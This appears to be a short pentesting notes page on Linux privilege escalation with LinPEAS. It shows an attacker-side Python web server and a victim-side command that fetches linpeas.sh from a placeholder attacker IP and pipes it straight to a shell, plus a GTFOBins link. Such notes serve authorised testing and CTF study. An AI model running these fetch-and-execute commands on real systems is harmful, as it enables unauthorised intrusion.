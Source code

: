 ```yaml
---
description: Tools and methodology for Linux PrivEsc
---
```


# Linux

## 🔥 LinPEAS - Linux Privilege Escalation Awesome Script

When escalating privileges, one of the **fastest** ways to transfer and execute an enumeration script like `linpeas.sh` is using Python’s built-in HTTP server combined with `curl`.

***

#### &#x20;**📌 Attacker: Start a Simple Web Server**

Run the following command on your **attacking machine** to serve files from the current directory:

```bash
python3 -m http.server 80
```

#### &#x20;**📌 Victim: Download & Execute LinPEAS**

On the **target machine**, download and execute LinPEAS in one step:

```bash
curl <ATTACKER_IP>/linpeas.sh | sh
```

## 🛑 GTFOBins

[https://gtfobins.github.io/](https://gtfobins.github.io/)
